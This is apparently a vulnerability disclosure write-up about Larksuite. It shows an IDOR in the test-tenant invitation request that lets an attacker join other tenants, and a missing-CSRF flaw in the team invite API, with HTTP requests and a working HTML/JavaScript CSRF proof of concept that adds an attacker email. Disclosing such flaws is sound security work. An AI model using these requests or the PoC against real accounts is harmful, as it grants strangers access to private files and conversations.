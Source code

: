 An invitation request in a *tenant* when analyzed was as follows:

```http
POST /sandbox/AddTestTenantMember HTTP/1.1
Host: open.larksuite.com 
Cookie: Content-Length: 73 
X-Csrf-Token: XYZ

{"TestTenantID":"TENANT_ID","Email":"EMAIL"}
```

Attacker *simply changed* the _TestTenantID_ value (which was a random numeric id and forwarded the request and response was **200 ok**. The used email id was mailed that he has been invited in a tenant of someone else. 

Inside that *tenant attacker can access* the files, conversations and other sensitive information. Plus i also noticed that Larksuite internally uses the same platform in order to host their files for example on **App.larksuite.com** we have various app's and their documentation is hosted on the larksuite itself if an attacker will join the team it means that the attacker would be able to get access to those official documentation, Chats and other teams belong to the Larksuite company.


---




#### [CSRF] No Csrf protection against sending invitation to join the team.

We found a possible way through which anyone can perform a CSRF Attack and forge a request from the admin's browser to join the team, as the request doesn't consist any sort of CSRF protection. 

The following request was used to Invite a new member to the Team and was vulnerable to a CSRF Attack

```http
POST /create/api/v2/invite HTTP/1.1
Host: www.larksuite.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0

{"mobiles":[],"emails":["imunissar786@gmail.com"]}
```


So we created a Quick POC to exploit the issue

```html
<html>
<title>JSON CSRF POC</title>
<body>
<center>
<h1> JSON CSRF POC </h1>
<script>
fetch('https://www.larksuite.com/create/api/v2/invite', {method: 'POST', credentials: 'include', headers: {'Content-Type': 'text/plain'}, body: '{"mobiles":[],"emails":["attacker@gmail.com"]}'});
</script>
<form action="#">
<input type="button" value="Submit" />
</form>
</center>
</body>
</html>
```
